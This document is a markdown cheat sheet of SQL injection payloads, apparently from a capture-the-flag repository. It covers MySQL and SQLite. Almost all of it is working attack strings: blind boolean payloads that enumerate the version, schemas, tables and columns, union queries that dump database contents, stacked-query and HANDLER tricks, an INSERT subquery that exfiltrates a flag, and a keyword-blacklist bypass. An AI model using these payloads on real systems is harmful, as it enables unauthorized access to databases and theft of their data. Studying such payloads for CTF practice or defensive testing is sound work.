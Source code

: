 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind SQLi
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Get version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())={guess})#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))={guess})#`

  - Get schemas [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_get_schemas.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.SCHEMATA)#`
      - `admin' and (SELECT LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {schema_index}),{name_index},1))={ord(guess)})#`
  
  - Get tables from schema [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_tables.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {table_index}),{name_index},1))={ord(guess)})#`
   
  - Get columns from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_columns.py)
      - `admin' and (SELECT COUNT(*)={guess} total_columns FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {column_index}),{name_index},1))={ord(guess)})#`
      
   - Get total record from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_total_record.py)
      - `admin' and (SELECT COUNT(*)={guess} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME})#`
     

### Union SQLi
- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`


## Tricks

  - Bypass blacklist words
    - `ad'||'min`

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```
